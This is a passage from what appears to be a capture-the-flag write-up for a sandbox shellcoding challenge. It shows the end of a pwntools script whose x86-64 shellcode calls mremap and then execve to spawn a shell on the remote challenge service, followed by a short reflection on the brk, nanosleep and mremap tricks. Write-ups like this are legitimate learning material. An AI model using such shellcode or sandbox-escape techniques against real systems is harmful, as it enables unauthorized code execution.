 ```python
    push rdi
    mov rdi, rsp

    sub rdi, 0x50
    mov rdx, 0x1000
    mov r10, 3
    mov r8, rbx
    mov rax, 0x19
    syscall
    """

    shellcode += asm(set_var)

    win = """
    mov rdi, rbx
    add rdi, 0x50
    mov rsi, 0
    mov rdx, 0
    mov rax, 0x3b
    syscall
    """

    shellcode += asm(win)

    p = conn()

    p.recvuntil(b'shellcode: ')

    payload = shellcode.ljust(0xfd7, b'\x90')

    p.sendline(payload)
    p.interactive()

run()
```

![babysbxflag](/assets/blackhatmea/zerodaytea/babysbxflag.webp)
*flag redacted on local*

Pretty fun shellcoding challenge that I ended up making a bit more difficult than necessary. The `brk` + `nanosleep` and `mremap` tricks are good ones to remember for the future though!
